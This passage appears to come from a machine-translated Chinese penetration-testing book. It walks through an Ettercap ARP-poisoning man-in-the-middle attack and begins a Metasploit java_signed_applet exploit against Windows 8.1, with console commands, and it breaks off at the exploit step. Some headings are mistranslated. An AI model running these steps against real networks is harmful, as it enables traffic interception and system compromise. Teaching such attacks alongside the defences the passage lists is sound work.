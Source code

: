    ![Man-in-the-middle attacks](graphics/3183OS_08_20.jpg)

13.  点击**开始**，然后选择**开始嗅探**。

Ettercap 将开始 ARP 毒害受害者和路由器。ETERCAP 将显示来自受害者的任何信息或数据。

祝贺您已成功实施了完整的 MITM 攻击。

如果您愿意，还可以使用 sslstrip 和 urlsnarf 等工具从受害者那里获取一些附加信息。**sslstrip**是一种 MITM 攻击，它迫使用户使用 HTTP 协议而不是 HTTPS 进行通信，在这种协议中，攻击者可以以明文形式查看所有 SSL 流量。**HTTP 严格传输安全**（**HSTS**是一种保护您免受此类威胁的安全保护机制。它可以防止在 cookie 和浏览器劫持发生时 HTTPS 被降级。**urlsnarf**以 CLF 格式显示所有请求的 HTTP 流量，可用于分析 web 流量和用户访问的网站。攻击者还可以利用它来窥探用户，知道他们正在搜索什么并在互联网上访问什么。

要停止攻击，请单击**开始**，然后选择**停止嗅探**，如图所示：

![Man-in-the-middle attacks](graphics/3183OS_08_21.jpg)

停止攻击后，eTerCap 将发送 ARP 数据包，网络将在几分钟内恢复正常。您可以使用 ARP 检测软件（如 XArp 或 Snort）保护自己免受此类攻击。此外，分配静态 ARP 条目有助于防止攻击。它会告诉攻击者路由器的 MAC 地址是永久的，无法更改。因此，它将忽略攻击者发送的所有 ARP 数据包。

# 变质岩

啊，是的，Metasploit 是渗透测试人员和 IDS 开发人员可用的最臭名昭著的开源工具！**Metasploit Framework**是一个充满安全漏洞和脚本的数据库。它是针对目标系统开发和执行利用代码的最流行的开源工具之一。Metasploit UI 显示在以下屏幕截图中：

![Metasploit](graphics/3183OS_08_22.jpg)

在下一个演示中，我们将通过 Java 漏洞利用 Windows 8.1。此漏洞将允许攻击者获取系统信息或哈希转储、从网络摄像头拍照、授予管理权限、创建和运行可执行文件、创建后门等。开始吧！

1.  Open a Terminal and type `msfconsole`:

    ### 提示

    您也可以运行`server postgresql start`或`service metasploit start`。

    ![Metasploit](graphics/3183OS_08_24.jpg)

2.  Now type `search java_signed_applet`:

    ![Metasploit](graphics/3183OS_08_25.jpg)

3.  Then type `use exploit/multi/browser/java_signed_applet`:

    ![Metasploit](graphics/3183OS_08_26.jpg)

4.  Now type `set SRVHOST <IPADDRESS>`:

    ![Metasploit](graphics/3183OS_08_27.jpg)

    ### 提示

    将`<IPADDRESS>`替换为您的 Kali Linux IP 地址。

5.  Type `exploit`:
